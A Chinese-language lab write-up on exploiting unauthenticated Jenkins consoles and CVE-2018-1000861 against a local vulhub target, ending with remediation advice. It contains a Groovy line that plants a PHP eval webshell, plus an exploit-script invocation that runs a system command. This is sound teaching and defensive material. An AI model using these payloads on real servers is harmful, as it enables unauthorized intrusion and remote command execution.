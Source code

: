Jenkins是一个独立的、开放源码的自动化服务器，它可以用于自动化与构建、测试、交付或部署软件相关的各种任务。由于Jenkins默认安装的时候没有配置密码，导致未授权访问管理控制台，可以通过脚本命令行执行系统命令。

## 环境搭建

```bash
root@kali:~/桌面/vulhub-master/jenkins/CVE-2018-1000861# docker-compose up
```

## 漏洞利用

### 弱口令

访问url，通过爆破得到密码，若无密码即可未授权访问到管理控制台，通过脚本命令行功能执行系统命令，poc：

```
http://192.168.211.129:8080/manage
```

访问系统管理-脚本命令行

![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090603-01b5b09a-c930-1.jpg)

利用脚本命令行将webshell上传到/var/www/html下，内容如下:

```
new File("/var/www/html/websehll.php").write('<?php @eval($_POST[cmd]);?>');
```

也可以执行其他命令，反弹shell等

![jenkins 未授权访问-任意命令执行_jenkins](http://i2.51cto.com/images/blog/201808/09/3228c2138fe577becc51638833219ad1.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

### CVE-2018-1000861

使用[脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)攻击，此脚本没有回显，在靶机上`docker exec -ti id bash`加入对应容器后查看/tmp目录验证，poc：

```cmd
F:\CTF\web\CVE-2018-1000861\awesome-jenkins-rce-2019-master>pip2 install enum
F:\CTF\web\CVE-2018-1000861\awesome-jenkins-rce-2019-master>python2 exp.py http://192.168.211.129:8080 "touch /tmp/1.txt" 
[*] ANONYMOUS_READ enable!
[*] Exploit success!(it should be :P)
```

## 漏洞修复

1. 添加认证，设置强密码复杂度及账号锁定。
2. 升级Jenkins至新版本；
3. 禁止把Jenkins直接暴露在公网

# MongoDB未授权访问
